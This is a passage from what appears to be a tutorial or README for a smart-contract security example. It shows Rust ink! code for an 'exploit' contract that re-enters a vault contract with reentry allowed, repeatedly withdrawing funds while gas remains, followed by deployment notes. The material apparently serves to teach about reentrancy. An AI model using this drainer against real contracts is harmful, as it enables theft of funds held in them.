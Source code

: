 ```rust
                .transferred_value(self.env().transferred_value())
                .exec_input(
                    ink::env::call::ExecutionInput::new(
                        Selector::new([0x2D_u8,0x10_u8,0xC9_u8,0xBD_u8])
                    ).into()
                ).returns::<Balance>().params();
            self.env().invoke_contract(&call)
                .unwrap_or_else(|err| panic!("Err {:?}",err))
                .unwrap_or_else(|err| panic!("LangErr {:?}",err))
        }

        #[ink(message, payable, selector = 0x0)]
        pub fn exploit(&mut self) {
            ink::env::debug_println!("Exploit  function called from {:?} gas left {:?}",self.env().caller(), self.env().gas_left());
            if self.env().gas_left() > self.gas_to_stop{
                let call = build_call::<ink::env::DefaultEnvironment>()
                .call(self.contract)
                .transferred_value(0)
                .exec_input(
                    ink::env::call::ExecutionInput::new(Selector::new([0x76_u8,0x75_u8,0x7E_u8,0xD3_u8]))
                        .push_arg(self.env().account_id())
                        .push_arg(self.amount)
                        .push_arg(0)
                )
                .call_flags(
                    ink::env::CallFlags::default()
                        .set_allow_reentry(true)
                )
                .returns::<Balance>()
                .params();
                ink::env::debug_println!("Call generated gas left:{:?}",self.env().gas_left());
                self.env().invoke_contract(&call)
                    .unwrap_or_else(|err| panic!("Err {:?}",err))
                    .unwrap_or_else(|err| panic!("LangErr {:?}",err));
                ink::env::debug_println!("Call finished");
            }
        }
    }

}

```

### Deployment

Vault and Exploit files can be found under the directories ./example/exploit and ./example/vault. The whole exploit example can be run automatically using the `deploy.sh` file.

### Tutorial
